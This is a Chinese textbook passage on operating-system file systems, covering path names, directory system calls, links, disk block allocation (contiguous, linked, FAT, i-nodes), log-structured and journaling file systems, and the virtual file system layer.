用户可以创建任意数量的子目录，这种能力为用户组织其工作提供了强大的结构化工具。因此，几乎所有现代文件系统都是用这个方式组织的。
用目录树组织文件系统时，需要有某种方法指明文件名。常用的方法有两种。第一种是，每个文件都赋予一个绝对路径名（absolute path name），它由从根目录到文件的路径组成。例如，路径/usr/ast/mailbox表示根目录中有子目录usr，而usr中又有子目录ast，文件mailbox就在子目录ast下。绝对路径名一定从根目录开始，且是惟一的。在UNIX中，路径各部分之间用“/”分隔。在Windows中，分隔符是“\”。在MULTICS中是“＞”。这样在这三个系统中同样的路径名按如下形式写成：
不管采用哪种分隔符，如果路径名的第一个字符是分隔符，则这个路径就是绝对路径。
另一种指定文件名的方法是使用相对路径名（relative path name）。它常和工作目录（working directory）（也称作当前目录（current directory））一起使用。用户可以指定一个目录作为当前工作目录。这时，所有的不从根目录开始的路径名都是相对于工作目录的。例如，如果当前的工作目录是/usr/ast，则绝对路径名为/usr/ast/mailbox的文件可以直接用mailbox来引用。也就是说，如果工作目录是/usr/ast，则UNIX命令
cp/usr/ast/mailbox/usr/ast/mailbox.bak
和命令
cp mailbox mailbox.bak
具有相同的含义。相对路径往往更方便，而它实现的功能和绝对路径完全相同。
一些程序需要存取某个特定文件，而不论当前目录是什么。这时，应该采用绝对路径名。比如，一个检查拼写的程序要读文件/usr/lib/dictionary，因为它不可能事先知道当前目录，所以就采用完整的绝对路径名。不论当前的工作目录是什么，绝对路径名总能正常工作。
当然，若这个检查拼写的程序要从目录/usr/lib中读很多文件，可以用另一种方法，即执行一个系统调用把该程序的工作目录切换到/usr/lib，然后只需用dictionary作为open的第一个参数。通过显式地改变工作目录，可以知道该程序在目录树中的确切位置，进而可以采用相对路径名。
每个进程都有自己的工作目录，这样在进程改变工作目录并退出后，其他进程不会受到影响，文件系统中也不会有改变的痕迹。对进程而言，切换工作目录是安全的，所以只要需要，就可以改变当前工作目录。但是，如果改变了库过程的工作目录，并且工作完毕之后没有修改回去，则其他程序有可能无法正常运行，因为它们关于当前目录的假设已经失效。所以库过程很少改变工作目录，若非改不可，必定要在返回之前改回到原有的工作目录。
支持层次目录结构的大多数操作系统在每个目录中有两个特殊的目录项“.”和“..”，常读作“dot”和“dotdot”。dot指当前目录，dotdot指其父目录（在根目录中例外，根目录中它指向自己）。要了解怎样使用它们，请考虑图4-8中的UNIX目录树。一个进程的工作目录是/usr/ast，它可采用“..”沿树向上。例如，可用命令
cp../lib/dictionary.
把文件usr/lib/dictionary复制到自己的目录下。第一个路径告诉系统上溯（到usr目录），然后向下到lib目录，找到dictionary文件。
第二个参数（.）指定当前目录。当cp命令用目录名（包括“.”）作为最后一个参数时，则把全部的文件复制到该目录中。当然，对于上述复制，键入
cp/usr/lib/dictionary.
是更常用的方法。用户这里采用“.”可以避免键入两次dictionary。无论如何，键入
cp/usr/lib/dictionary dictionary
也可正常工作，就像键入
cp/usr/lib/dictionary/usr/ast/dictionary
一样。所有这些命令都完成同样的工作。
不同系统中管理目录的系统调用的差别比管理文件的系统调用的差别大。为了了解这些系统调用有哪些及它们怎样工作，下面给出一个例子（取自UNIX）。
1)create。创建目录。除了目录项“.”和“..”外，目录内容为空。目录项“.”和“..”是系统自动放在目录中的（有时通过mkdir程序完成）。
2)delete。删除目录。只有空目录可删除。只包含目录项“.”和“..”的目录被认为是空目录，这两个目录项通常不能删除。
3)opendir。目录内容可被读取。例如，为列出目录中全部文件，程序必须先打开该目录，然后读其中全部文件的文件名。与打开和读文件相同，在读目录前，必须打开目录。
4)closedir。读目录结束后，应关闭目录以释放内部表空间。
5)readdir。系统调用readdir返回打开目录的下一个目录项。以前也采用read系统调用来读目录，但这方法有一个缺点：程序员必须了解和处理目录的内部结构。相反，不论采用哪一种目录结构，readdir总是以标准格式返回一个目录项。
6)rename。在很多方面目录和文件都相似。文件可换名，目录也可以。
7)link。连接技术允许在多个目录中出现同一个文件。这个系统调用指定一个存在的文件和一个路径名，并建立从该文件到路径所指名字的连接。这样，可以在多个目录中出现同一个文件。这种类型的连接，增加了该文件的i节点（i-node）计数器的计数（记录含有该文件的目录项数目），有时称为硬连接（hard link）。
8)unlink。删除目录项。如果被解除连接的文件只出现在一个目录中（通常情况），则将它从文件系统中删除。如果它出现在多个目录中，则只删除指定路径名的连接，依然保留其他路径名的连接。在UNIX中，用于删除文件的系统调用（前面已有论述）实际上就是unlink。
最主要的系统调用已在上面列出，但还有其他一些调用，如与目录相关的管理保护信息的系统调用。
关于连接文件的一种不同想法是符号连接。不同于使用两个文件名指向同一个内部数据结构来代表一个文件，所建立的文件名指向了命名另一个文件的小文件。当使用第一个文件时，例如打开时，文件系统沿着路径，找到在末端的名字。然后它使用该新名字启动查找进程。符号连接的优点在于它能够跨越磁盘的界限，甚至可以命名在远程计算机上的文件，不过符号连接的实现并不如硬连接那样有效率。
现在从用户角度转到实现者角度来考察文件系统。用户关心的是文件是怎样命名的、可以进行哪些操作、目录树是什么样的以及类似的界面问题。而实现者感兴趣的是文件和目录是怎样存储的、磁盘空间是怎样管理的以及怎样使系统有效而可靠地工作等。在下面几节中，我们会考察这些文件系统的实现中出现的问题，并讨论怎样解决这些问题。
文件系统存放在磁盘上。多数磁盘划分为一个或多个分区，每个分区中有一个独立的文件系统。磁盘的0号扇区称为主引导记录（Master Boot Record，MBR），用来引导计算机。在MBR的结尾是分区表。该表给出了每个分区的起始和结束地址。表中的一个分区被标记为活动分区。在计算机被引导时，BIOS读入并执行MBR。MBR做的第一件事是确定活动分区，读入它的第一个块，称为引导块（boot block），并执行之。引导块中的程序将装载该分区中的操作系统。为统一起见，每个分区都从一个启动块开始，即使它不含有一个可启动的操作系统。不过，在将来这个分区也许会有一个操作系统的。
除了从引导块开始之外，磁盘分区的布局是随着文件系统的不同而变化的。文件系统经常包含有如图4-9所列的一些项目。第一个是超级块（superblock），超级块包含文件系统的所有关键参数，在计算机启动时，或者在该文件系统首次使用时，把超级块读入内存。超级块中的典型信息包括：确定文件系统类型用的魔数、文件系统中数据块的数量以及其他重要的管理信息。
接着是文件系统中空闲块的信息，例如，可以用位图或指针列表的形式给出。后面也许跟随的是一组i节点，这是一个数据结构数组，每个文件一个，i节点说明了文件的方方面面。接着可能是根目录，它存放文件系统目录树的根部。最后，磁盘的其他部分存放了其他所有的目录和文件。
文件存储的实现的关键问题是记录各个文件分别用到哪些磁盘块。不同操作系统采用不同的方法。这一节，我们讨论其中的一些方法。
1.连续分配
最简单的分配方案是把每个文件作为一连串连续数据块存储在磁盘上。所以，在块大小为1KB的磁盘上，50KB的文件要分配50个连续的块。对于块大小为2KB的磁盘，将分配25个连续的块。
在图4-10a中是一个连续分配的例子。这里列出了头40块，从左面从0块开始。初始状态下，磁盘是空的。接着，从磁盘开始处（块0）开始写入长度为4块的文件A。紧接着，在文件A的结尾开始写入一个3块的文件B。
请注意，每个文件都从一个新的块开始，这样如果文件A实际上只有31 /2 块，那么最后一块的结尾会浪费一些空间。在图4-10中，一共列出了7个文件，每一个都从前面文件结尾的后续块开始。加阴影是为了容易表示文件分隔，在存储中并没有实际的意义。
连续磁盘空间分配方案有两大优势。首先，实现简单，记录每个文件用到的磁盘块简化为只需记住两个数字即可：第一块的磁盘地址和文件的块数。给定了第一块的编号，一个简单的加法就可以找到任何其他块的编号。
其次，读操作性能较好，因为在单个操作中就可以从磁盘上读出整个文件。只需要一次寻找（对第一个块）。之后不再需要寻道和旋转延迟，所以，数据以磁盘全带宽的速率输入。可见连续分配实现简单且具有高的性能。
但是，连续分配方案也同样有相当明显的不足之处：随着时间的推移，磁盘会变得零碎。为了了解这是如何发生的，请考察图4-10b。这里有两个文件（D和F）被删除了。当删除一个文件时，它占用的块自然就释放了，在磁盘上留下一堆空闲块。磁盘不会在这个位置挤压掉这个空洞，因为这样会涉及复制空洞之后的所有文件，可能会有上百万的块。结果是，磁盘上最终既包括文件也有空洞，如图4-10中所描述的那样。
开始时，碎片并不是问题，因为每个新的文件都在先前文件的磁盘结尾写入。但是，磁盘最终会被充满，所以要么压缩磁盘，要么重新使用空洞中的空闲空间。前者由于代价太高而不可行；后者需要维护一个空洞列表，这是可行的。但是，当创建一个新的文件时，为了挑选合适大小的空洞存入文件，就有必要知道该文件的最终大小。
设想这样一种设计的结果：为了录入一个文档，用户启动了文本编辑器或字处理软件。程序首先询问最终文件的大小会是多少。这个问题必须回答，否则程序就不能继续。如果给出的数字最后被证明小于文件的实际大小，该程序会终止，因为所使用的磁盘空洞已经满了，没有地方放置文件的剩余部分。如果用户为了避免这个问题而给出不实际的较大的数字作为最后文件的大小，比如，100 MB，编辑器可能找不到如此大的空洞，从而宣布无法创建该文件。当然，用户有权下一次使用比如50MB的数字再次启动编辑器，如此进行下去，直到找到一个合适的空洞为止。不过，这种方式看来不会使用户高兴。
然而，存在着一种情形，使得连续分配方案是可行的，而且，实际上这个办法在CD-ROM上被广泛使用着。在这里所有文件的大小都事先知道，并且在CD-ROM文件系统的后续使用中，这些文件的大小也不再改变。在本章的后面，我们将讨论最常见的CD-ROM文件系统。
DVD的情况有些复杂。原则上，一个90分钟的电影可以编码成一个独立的、大约4.5GB的文件。但是文件系统所使用的UDF（Universal Disk Format）格式，使用了一个30位的数来代表文件长度，从而把文件大小限制在1GB。其结果是，DVD电影一般存储在3个或4个1GB的连续文件中。这些构成一个逻辑文件（电影）的物理文件块被称作extents。
正如第1章中所提到的，在计算机科学中，随着新一代技术的出现，历史往往重复着自己。多年前，连续分配由于其简单和高性能（没有过多考虑用户友好性）被实际用在磁盘文件系统中。后来由于讨厌在文件创建时不得不指定最终文件的大小，这个想法被放弃了。但是，随着CD-ROM、DVD以及其他一次性写光学介质的出现，突然间连续分配又成为一个好主意。所以研究那些具有清晰和简洁概念的老式系统和思想是很重要的，因为它们有可能以一种令人吃惊的方式在未来系统中获得应用。
2.链表分配
存储文件的第二种方法是为每个文件构造磁盘块链表，如图4-11所示。每个块的第一个字作为指向下一块的指针，块的其他部分存放数据。
与连续分配方案不同，这一方法可以充分利用每个磁盘块。不会因为磁盘碎片（除了最后一块中的内部碎片）而浪费存储空间。同样，在目录项中，只需要存放第一块的磁盘地址，文件的其他块就可以从这个首块地址查找到。
另一方面，在链表分配方案中，尽管顺序读文件非常方便，但是随机存取却相当缓慢。要获得块n，操作系统每一次都必须从头开始，并且要先读前面的n-1块。显然，进行如此多的读操作太慢了。
而且，由于指针占去了一些字节，每个磁盘块存储数据的字节数不再是2的整数次幂。虽然这个问题并不是非常严重，但是怪异的大小确实降低了系统的运行效率，因为许多程序都是以长度为2的整数次幂来读写磁盘块的。由于每个块的前几个字节被指向下一个块的指针所占据，所以要读出完整的一个块，就需要从两个磁盘块中获得和拼接信息，这就因复制引发了额外的开销。
3.在内存中采用表的链表分配
如果取出每个磁盘块的指针字，把它放在内存的一个表中，就可以解决上述链表的两个不足。图4-12表示了图4-11所示例子的内存中表的内容。这两个图中有两个文件，文件A依次使用了磁盘块4、7、2、10和12，文件B依次使用了磁盘块6、3、11和14。利用图4-12中的表，可以从第4块开始，顺着链走到最后，找到文件A的全部磁盘块。同样，从第6块开始，顺着链走到最后，也能够找出文件B的全部磁盘块。这两个链都以一个不属于有效磁盘编号的特殊标记（如-1）结束。内存中的这样一个表格称为文件分配表（File Allocation Table，FAT）。
按这类方式组织，整个块都可以存放数据。进而，随机存取也容易得多。虽然仍要顺着链在文件中查找给定的偏移量，但是整个链表都存放在内存中，所以不需要任何磁盘引用。与前面的方法相同，不管文件有多大，在目录项中只需记录一个整数（起始块号），按照它就可以找到文件的全部块。
这种方法的主要缺点是必须把整个表都存放在内存中。对于200 GB的磁盘和1KB大小的块，这张表需要有2亿项，每一项对应于这2亿个磁盘块中的一个块。每项至少3个字节，为了提高查找速度，有时需要4个字节。根据系统对空间或时间的优化方案，这张表要占用600MB或800MB内存，不太实用。很显然FAT方案对于大磁盘而言不太合适。
4.i节点
最后一个记录各个文件分别包含哪些磁盘块的方法是给每个文件赋予一个称为i节点（index-node）的数据结构，其中列出了文件属性和文件块的磁盘地址。图4-13中是一个简单例子的描述。给定i节点，就有可能找到文件的所有块。相对于在内存中采用表的方式而言，这种机制具有很大的优势，即只有在对应文件打开时，其i节点才在内存中。如果每个i节点占有n个字节，最多k个文件同时打开，那么为了打开文件而保留i节点的数组所占据的全部内存仅仅是kn个字节。只需要提前保留少量的空间。
这个数组通常比上一节中叙述的文件分配表（FAT）所占据的空间要小。其原因很简单，保留所有磁盘块的链接表的表大小正比于磁盘自身的大小。如果磁盘有n块，该表需要n个表项。由于磁盘变得更大，该表格也线性随之增加。相反，i节点机制需要在内存中有一个数组，其大小正比于可能要同时打开的最大文件个数。它与磁盘是10GB、100GB还是1000GB无关。
i节点的一个问题是，如果每个i节点只能存储固定数量的磁盘地址，那么当一个文件所含的磁盘块的数目超出了i节点所能容纳的数目怎么办？一个解决方案是最后一个“磁盘地址”不指向数据块，而是指向一个包含磁盘块地址的块的地址，如图4-13所示。更高级的解决方案是：可以有两个或更多个包含磁盘地址的块，或者指向其他存放地址的磁盘块的磁盘块。在后面讨论UNIX时，我们还将涉及i节点。
在读文件前，必须先打开文件。打开文件时，操作系统利用用户给出的路径名找到相应目录项。目录项中提供了查找文件磁盘块所需要的信息。因系统而异，这些信息有可能是整个文件的磁盘地址（对于连续分配方案）、第一个块的编号（对于两种链表分配方案）或者是i节点号。无论怎样，目录系统的主要功能是把ASCII文件名映射成定位文件数据所需的信息。
与此密切相关的问题是在何处存放文件属性。每个文件系统维护诸如文件所有者以及创建时间等文件属性，它们必须存储在某个地方。一种显而易见的方法是把文件属性直接存放在目录项中。很多系统确实是这样实现的。这个办法用图4-14a说明。在这个简单设计中，目录中有一个固定大小的目录项列表，每个文件对应一项，其中包含一个（固定长度）文件名、一个文件属性结构以及用以说明磁盘块位置的一个或多个磁盘地址（至某个最大值）。
对于采用i节点的系统，还存在另一种方法，即把文件属性存放在i节点中而不是目录项中。在这种情形下，目录项会更短：只有文件名和i节点号。这种方法参见图4-14b。后面我们会看到，与把属性存放到目录项中相比，这种方法更好。图4-14中的两种处理方法分别对应Windows和UNIX，在后面我们将讨论它们。
到目前为止，我们已经假设文件具有较短的、固定长度的名字。在MS-DOS中，文件有1～8个字符的基本名和1～3字符的可选扩展名。在UNIX V7中文件名有1～14个字符，包括任何扩展名。但是，几乎所有的现代操作系统都支持可变长度的长文件名。那么它们是如何实现的呢？
最简单的方法是给予文件名一个长度限制，典型值为255个字符，然后使用图4-14中的一种设计，并为每个文件名保留255个字符空间。这种处理很简单，但是浪费了大量的目录空间，因为只有很少的文件会有如此长的名字。从效率考虑，我们希望有其他的结构。
一种替代方案是放弃“所有目录项大小一样”的想法。这种方法中，每个目录项有一个固定部分，这个固定部分通常以目录项的长度开始，后面是固定格式的数据，通常包括所有者、创建时间、保护信息以及其他属性。这个固定长度的头的后面是实际文件名，可能是如图4-15a中的正序格式放置（如SPARC机器） [1] 。在这个例子中，有三个文件，project-budget、personnel和foo。每个文件名以一个特殊字符（通常是0）结束，在图4-15中用带叉的矩形表示。为了使每个目录项从字的边界开始，每个文件名被填充成整数个字，如图4-15中带阴影的矩形所示。
这个方法的缺点是，当移走文件后，就引入了一个长度可变的空隙，而下一个进来的文件不一定正好适合这个空隙。这个问题与我们已经看到的连续磁盘文件的问题是一样的，由于整个目录在内存中，所以只有对目录进行紧凑操作才可节省空间。另一个问题是，一个目录项可能会分布在多个页面上，在读取文件名时可能发生页面故障。
处理可变长度文件名字的另一种方法是，使目录项自身都有固定长度，而将文件名放置在目录后面的堆中，如图4-15b所示。这一方法的优点是，当一个文件目录项被移走后，另一个文件的目录项总是可以适合这个空隙。当然，必须要对堆进行管理，而在处理文件名时页面故障仍旧会发生。另一个小优点是文件名不再需要从字的边界开始，这样，原先在图4-15a中需要的填充字符，在图4-15b中的文件名之后就不再需要了。
到目前为止，在需要查找文件名时，所有的方案都是线性地从头到尾对目录进行搜索。对于非常长的目录，线性查找就太慢了。加快查找速度的一个方法是在每个目录中使用散列表。设表的大小为n。在输入文件名时，文件名被散列到1和n-1之间的一个值，例如，它被n除，并取余数。其他可以采用的方法有，对构成文件名的字求和，其结果被n除，或某些类似的方法。
不论哪种方法都要对与散列码相对应的散列表表项进行检查。如果该表项没有被使用，就将一个指向文件目录项的指针放入，文件目录项紧连在散列表后面。如果该表项被使用了，就构造一个链表，该链表的表头指针存放在该表项中，并链接所有具有相同散列值的文件目录项。
查找文件按照相同的过程进行。散列处理文件名，以便选择一个散列表项。检查链表头在该位置上的所有表项，查看要找的文件名是否存在。如果名字不在该链上，该文件就不在这个目录中。
使用散列表的优点是查找非常迅速。其缺点是需要复杂的管理。只有在预计系统中的目录经常会有成百上千个文件时，才把散列方案真正作为备用方案考虑。
一种完全不同的加快大型目录查找速度的方法是，将查找结果存入高速缓存。在开始查找之前，先查看文件名是否在高速缓存中。如果是，该文件可以立即定位。当然，只有在构成查找主体的文件非常少的时候，高速缓存的方案才有效果。
当几个用户同在一个项目里工作时，他们常常需要共享文件。其结果是，如果一个共享文件同时出现在属于不同用户的不同目录下，工作起来就很方便。图4-16再次给出图4-7所示的文件系统，只是C的一个文件现在也出现在B的目录下。B的目录与该共享文件的联系称为一个连接（link）。这样，文件系统本身是一个有向无环图（Directed Acyclic Graph，DAG）而不是一棵树。
共享文件是方便的，但也带来一些问题。如果目录中包含磁盘地址，则当连接文件时，必须把C目录中的磁盘地址复制到B目录中。如果B或C随后又往该文件中添加内容，则新的数据块将只列入进行添加工作的用户的目录中。其他的用户对此改变是不知道的。所以违背了共享的目的。
有两种方法可以解决这一问题。在第一种解决方案中，磁盘块不列入目录，而是列入一个与文件本身关联的小型数据结构中。目录将指向这个小型数据结构。这是UNIX系统中所采用的方法（小型数据结构即是i节点）。
在第二种解决方案中，通过让系统建立一个类型为LINK的新文件，并把该文件放在B的目录下，使得B与C的一个文件存在连接。新的文件中只包含了它所连接的文件的路径名。当B读该连接文件时，操作系统查看到要读的文件是LINK类型，则找到该文件所连接的文件的名字，并且去读那个文件。与传统（硬）连接相对比起来，这一方法称为符号连接（symbolic linking）。
以上每一种方法都有其缺点。第一种方法中，当B连接到共享文件时，i节点记录文件的所有者是C。建立一个连接并不改变所有关系（见图4-17），但它将i节点的连接计数加1，所以系统知道目前有多少目录项指向这个文件。
如果以后C试图删除这个文件，系统将面临问题。如果系统删除文件并清除i节点，B则有一个目录项指向一个无效的i节点。如果该i节点以后分配给另一个文件，则B的连接指向一个错误的文件。系统通过i节点中的计数可知该文件仍然被引用，但是没有办法找到指向该文件的全部目录项以删除它们。指向目录的指针不能存储在i节点中，原因是有可能有无数个目录。
惟一能做的就是只删除C的目录项，但是将i节点保留下来，并将计数置为1，如图4-17c所示。而现在的状况是，只有B有指向该文件的目录项，而该文件的所有者是C。如果系统进行记账或有配额，那么C将继续为该文件付账直到B决定删除它，如果真是这样，只有到计数变为0的时刻，才会删除该文件。
对于符号连接，以上问题不会发生，因为只有真正的文件所有者才有一个指向i节点的指针。连接到该文件上的用户只有路径名，没有指向i节点的指针。当文件所有者删除文件时，该文件被销毁。以后若试图通过符号连接访问该文件将导致失败，因为系统不能找到该文件。删除符号连接根本不影响该文件。
符号连接的问题是需要额外的开销。必须读取包含路径的文件，然后要一个部分一个部分地扫描路径，直到找到i节点。这些操作也许需要很多次额外的磁盘存取。此外，每个符号连接都需要额外的i节点，以及额外的一个磁盘块用于存储路径，虽然如果路径名很短，作为一种优化，系统可以将它存储在i节点中。符号连接有一个优势，即只要简单地提供一个机器的网络地址以及文件在该机器上驻留的路径，就可以连接全球任何地方的机器上的文件。
还有另一个由连接带来的问题，在符号连接和其他方式中都存在。如果允许连接，文件有两个或多个路径。查找一指定目录及其子目录下的全部文件的程序将多次定位到被连接的文件。例如，一个将某一目录及其子目录下的文件转储到磁带上的程序有可能多次复制一个被连接的文件。进而，如果接着把磁带读进另一台机器，除非转储程序具有智能，否则被连接的文件将被两次复制到磁盘上，而不是只是被连接起来。
不断进步的科技给现有的文件系统带来了更多的挑战。特别是CPU的运行速度越来越快，磁盘容量越来越大，价格也越来越便宜（但是磁盘速度并没有增快多少），同时内存容量也以指数形式增长。而没有得到快速发展的参数是磁盘的寻道时间。所以这些问题综合起来，便成为影响很多文件系统性能的一个瓶颈。为此，Berkeley设计了一种全新的文件系统，试图缓解这个问题，即日志结构文件系统（Log-structured File System，LFS）。在这一节里，我们简要说明LFS是如何工作的。如果需要了解更多相关知识，请参阅（Rosenblum和Ousterhout，1991）。
促使设计LFS的主要原因是，CPU的运行速度越来越快，RAM内存容量变得更大，同时磁盘高速缓存也迅速地增加。进而，不需要磁盘访问操作，就有可能满足直接来自文件系统高速缓存的很大一部分读请求。所以从上面的事实可以推出，未来多数的磁盘访问是写操作，这样，在一些文件系统中使用的提前读机制（需要读取数据之前预取磁盘块），并不能获得更好的性能。
更为糟糕的情况是，在大多数文件系统中，写操作往往都是零碎的。一个50µs的磁盘写操作之前通常需要10ms的寻道时间和4ms的旋转延迟时间，可见零碎的磁盘写操作是极其没有效率的。根据这些参数，磁盘的效率降低到1%以下。
为了看看这样小的零碎写操作从何而来，考虑在UNIX文件系统上创建一个新文件。为了写这个文件，必须写该文件目录的i节点、目录块、文件的i节点以及文件本身。而这些写操作都有可能被延迟，那么如果在写操作完成之前发生死机，就可能在文件系统中造成严重的不一致性。正因为如此，i节点的写操作一般是立即完成的。
出于这一原因，LFS的设计者决定重新实现一种UNIX文件系统，该系统即使对于一个大部分由零碎的随机写操作组成的任务，同样能够充分利用磁盘的带宽。其基本思想是将整个磁盘结构化为一个日志。每隔一段时间，或是有特殊需要时，被缓冲在内存中的所有未决的写操作都被放到一个单独的段中，作为在日志末尾的一个邻接段写入磁盘。一个单独的段可能会包括i节点、目录块、数据块或者都有。每一个段的开始都是该段的摘要，说明该段中都包含哪些内容。如果所有的段平均在1MB左右，那么就几乎可以利用磁盘的完整带宽。
在LFS的设计中，同样存在着i节点，且具有与UNIX中一样的结构，但是i节点分散在整个日志中，而不是放在磁盘的某一个固定位置。尽管如此，当一个i节点被定位后，定位一个块就用通常的方式来完成。当然，由于这种设计，要在磁盘中找到一个i节点就变得比较困难了，因为i节点的地址不能像在UNIX中那样简单地通过计算得到。为了能够找到i节点，必须要维护一个由i节点编号索引组成的i节点图。在这个图中的表项i指向磁盘中的第i个i节点。这个图保存在磁盘上，但是也保存在高速缓存中，因此，大多数情况下这个图的最常用部分还是在内存中。
总而言之，所有的写操作最初都被缓冲在内存中，然后周期性地把所有已缓冲的写作为一个单独的段，在日志的末尾处写入磁盘。要打开一个文件，则首先需要从i节点图中找到文件的i节点。一旦i节点定位之后就可以找到相应的块的地址。所有的块都放在段中，在日志的某个位置上。
如果磁盘空间无限大，那么有了前面的讨论就足够了。但是，实际的硬盘空间是有限的，这样最终日志将会占用整个磁盘，到那个时候将不能往日志中写任何新的段。幸运的是，许多已有的段包含了很多不再需要的块，例如，如果一个文件被覆盖了，那么它的i节点就会指向新的块，但是旧的磁盘块仍然在先前写入的段中占据着空间。
为了解决这个问题，LFS有一个清理线程，该清理线程周期地扫描日志进行磁盘压缩。该线程首先读日志中的第一个段的摘要，检查有哪些i节点和文件。然后该线程查看当前i节点图，判断该i节点是否有效以及文件块是否仍在使用中。如果没有使用，则该信息被丢弃。如果仍然使用，那么i节点和块就进入内存等待写回到下一个段中。接着，原来的段被标记为空闲，以便日志可以用它来存放新的数据。用这种方法，清理线程遍历日志，从后面移走旧的段，然后将有效的数据放入内存等待写到下一个段中。由此，整个磁盘成为一个大的环形的缓冲区，写线程将新的段写到前面，而清理线程则将旧的段从后面移走。
日志的管理并不简单，因为当一个文件块被写回到一个新段的时候，该文件的i节点（在日志的某个地方）必须首先要定位、更新，然后放到内存中准备写回到下一个段中。i节点图接着必须更新以指向新的位置。尽管如此，对日志进行管理还是可行的，而且性能分析的结果表明，这种由管理而带来的复杂性是值得的。在上面所引用文章中的测试数据表明，LFS在处理大量的零碎的写操作时性能上优于UNIX，而在读和大块写操作的性能方面并不比UNIX文件系统差，甚至更好。
虽然基于日志结构的文件系统是一个很吸引人的想法，但是由于它们和现有的文件系统不相匹配，所以还没有被广泛应用。尽管如此，它们内在的一个思想，即面对出错的鲁棒性，却可以被其他文件系统所借鉴。这里的基本想法是保存一个用于记录系统下一步将要做什么的日志。这样当系统在完成它们即将完成的任务前崩溃时，重新启动后，可以通过查看日志，获取崩溃前计划完成的任务，并完成它们。这样的文件系统被称为日志文件系统，并已经被实际应用。微软（Microsoft）的NTFS文件系统、Linux ext3和ReiserFS文件系统都使用日志。接下来，我们会对这个话题进行简短介绍。
为了看清这个问题的实质，考虑一个简单、普通并经常发生的操作：移除文件。这个操作（在UNIX中）需要三个步骤完成：
1)在目录中删除文件；
2)释放i节点到空闲i节点池；
3)将所有磁盘块归还空闲磁盘块池。
在Windows中，也需要类似的步骤。不存在系统崩溃时，这些步骤执行的顺序不会带来问题；但是当存在系统崩溃时，就会带来问题。假如在第一步完成后系统崩溃。i节点和文件块将不会被任何文件获得，也不会被再分配；它们只存在于废物池中的某个地方，并因此减少了可利用的资源。如果崩溃发生在第二步后，那么只有磁盘块会丢失。
如果操作顺序被更改，并且i节点最先被释放，这样在系统重启后，i节点可以被再分配，但是旧的目录入口将继续指向它，因此指向错误文件。如果磁盘块最先被释放，这样一个在i节点被清除前的系统崩溃将意味着一个有效的目录入口指向一个i节点，它所列出的磁盘块当前存在于空闲块存储池中并可能很快被再利用。这将导致两个或更多的文件分享同样的磁盘块。这样的结果都是不好的。
日志文件系统则先写一个日志项，列出三个将要完成的动作。然后日志项被写入磁盘（并且为了良好地实施，可能从磁盘读回来验证它的完整性）。只有当日志项已经被写入，不同的操作才可以进行。当所有的操作成功完成后，擦除日志项。如果系统这时崩溃，系统恢复后，文件系统可以通过检查日志来查看是不是有未完成的操作。如果有，可以重新运行所有未完成的操作（这个过程在系统崩溃重复发生时执行多次），直到文件被正确地删除。
为了让日志文件系统工作，被写入日志的操作必须是幂等的，它意味着只要有必要，它们就可以重复执行很多次，并不会带来破坏。像操作“更新位表并标记i节点k或者块n是空闲的”可以重复任意次。同样地，查找一个目录并且删除所有叫foobar的项也是幂等的。在另一方面，把从i节点k新释放的块加入空闲表的末端不是幂等的，因为它们可能已经被释放并存放在那里了。更复杂的操作如“查找空闲块列表并且如果块n不在列表就将块n加入”是幂等的。日志文件系统必须安排它们的数据结构和可写入日志的操作以使它们都是幂等的。在这些条件下，崩溃恢复可以被快速安全地实施。
为了增加可信性，一个文件系统可以引入数据库中原子事务（atomic transaction）的概念。使用这个概念，一组动作可以被界定在开始事务和结束事务操作之间。这样，文件系统就会知道它必须完成所有被界定的操作，或者什么也不做，但是没有其他的选择。
NTFS有一个扩展的日志文件系统，并且它的结构几乎不会因系统崩溃而受到破坏。自1993年NTFS第一次随Windows NT一起发行以来就在不断地发展。Linux上有日志功能的第一个文件系统是ReiserFS，但是因为它和后来标准化的ext2文件系统不相匹配，它的推广受到阻碍。相比之下，ext3——一个不像ReiserFS那么有野心的工程，也具有日志文件功能并且和之前的ext2系统可以共存。
即使在同一台计算机上同一个操作系统下，也会使用很多不同的文件系统。一个Windows可能有一个主要的NTFS文件系统，但是也有继承的FAT-32或者FAT-16驱动，或包含旧的但仍被使用的数据的分区，并且不时地也可能需要一个CD-ROM或者DVD（每一个包含它们特有的文件系统）。Windows通过指定不同的盘符来处理这些不同的文件系统，比如“C:”、“D:”等。当一个进程打开一个文件，盘符是显式或者隐式存在的，所以Windows知道向哪个文件系统传递请求，不需要尝试将不同类型文件系统整合为统一模式。
相比之下，所有现代的UNIX系统做了一个很认真的尝试，即将多种文件系统整合到一个统一的结构中。一个Linux系统可以用ext2作为根文件系统，ext3分区装载在/home下，另一块采用ReiserFS文件系统的硬盘装载在/home下，以及一个ISO 9660的CD-ROM临时装载在/mnt下。从用户的观点来看，那只有一个文件系统层级。它们事实上是多种（不相容的）文件系统，对于用户和进程是不可见的。
但是，多种文件系统的存在，在实际应用中是明确可见的，而且因为先前Sun公司（Kleiman,1986）所做的工作，绝大多数UNIX操作系统都使用虚拟文件系统（Virtual File System，VFS）概念尝试将多种文件系统统一成一个有序的框架。关键的思想就是抽象出所有文件系统都共有的部分，并且将这部分代码放在单独的一层，该层调用底层的实际文件系统来具体管理数据。大体上的结构在图4-18中有阐述。以下的介绍不是单独针对Linux和FreeBSD或者其他版本的UNIX，而是给出了一种普遍的关于UNIX下文件系统的描述。
所有和文件相关的系统调用在最初的处理上都指向虚拟文件系统。这些来自用户进程的调用，都是标准的POSIX系统调用，比如open、read write和lseek等。因此，虚拟文件系统对用户进程有一个“更高层”接口，它就是著名的POSIX接口。
VFS也有一个对于实际文件系统的“更低层”接口，就是在图4-18中被标记为VFS接口的部分。这个接口包含许多功能调用，这样VFS可以使每一个文件系统完成任务。因此，当创造一个新的文件系统和VFS一起工作时，新文件系统的设计者就必须确定它提供VFS所需要的功能调用。关于这个功能的一个明显的例子就是从磁盘中读某个特定的块，把它放在文件系统的高速缓冲中，并且返回指向它的指针。因此，VFS有两个不同的接口：上层给用户进程的接口和下层给实际文件系统的接口。
尽管VFS下大多数的文件系统体现了本地磁盘的划分，但并不总是这样。事实上，Sun建立虚拟文件系统最原始的动机是支持使用NFS（Network File System，网络文件系统）协议的远程文件系统。VFS设计是只要实际的文件系统提供VFS需要的功能，VFS就不需知道或者关心数据具体存储在什么地方或者底层的文件系统是什么样的。
大多数VFS应用本质上都是面向对象的，即便它们用C语言而不是C++编写。有几种通常支持的主要的对象类型，包括超块（描述文件系统）、v节点（描述文件）和目录（描述文件系统目录）。这些中的每一个都有实际文件系统必须支持的相关操作。另外，VFS有一些供它自己使用的内部数据结构，包括用于跟踪用户进程中所有打开文件的装载表和文件描述符的数组。
